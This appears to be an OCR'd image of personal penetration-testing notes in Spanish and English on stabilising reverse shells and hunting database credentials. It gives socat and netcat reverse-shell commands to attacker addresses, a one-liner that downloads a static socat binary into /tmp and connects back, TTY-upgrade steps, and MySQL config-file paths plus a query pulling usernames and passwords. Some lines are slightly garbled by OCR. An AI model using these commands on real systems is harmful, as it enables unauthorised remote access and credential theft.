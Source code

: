 Si existe SOCAT
listener
socat file:'tty, raw,echo=0 tcp-listen:4444

victima
socat exec:'bash -li', pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444

---En python3
En Shell no interactiva
python3 -c 'import pty;pty.spawn("/bin/bash")'
Control+Z

En Maquina Local
stty raw -echo
fg enter (nc -lvnp <puerto>)
fg enter (comando ejecutado anteriormente en la maquina victima)

En Shell ya interactiva
export TERM=xterm



Descargando binarios desde 3ros
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444


Using stty options

### In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

### In Kali
$ stty raw -echo
$ fg

### In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

##Mysql
rutas importantes
password data
database_settins.inc.php
config.inc.php

Uso
mysql -u user -p XXXX
$show databases
use data_base
show tables
describe tablas
select id, username, passwd from users
